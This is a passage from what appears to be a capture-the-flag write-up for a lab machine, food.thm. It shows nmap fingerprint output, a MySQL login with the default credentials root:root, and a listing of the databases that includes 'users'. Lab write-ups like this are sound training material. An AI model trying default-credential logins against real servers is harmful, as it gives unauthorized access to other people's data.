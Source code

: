 |   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, TLSSessionReq, TerminalServerCookie:
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest:
|     HTTP/1.0 200 OK
|     Date: Thu, 19 Nov 2020 12:48:50 GMT
|     Content-Length: 4
|     Content-Type: text/plain; charset=utf-8
|_    king

So as I was enumerating through the nmap scan results.
I found out about the mysql running and tried to login using default credentials.
Fortunately I was able to login using root:root

root@LAPTOP-U5913CMD:/home/akshay# mysql -u root -h food.thm -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 7
Server version: 5.7.29-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show tables;
ERROR 1046 (3D000): No database selected
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| users              |
+--------------------+
5 rows in set (0.14 sec)

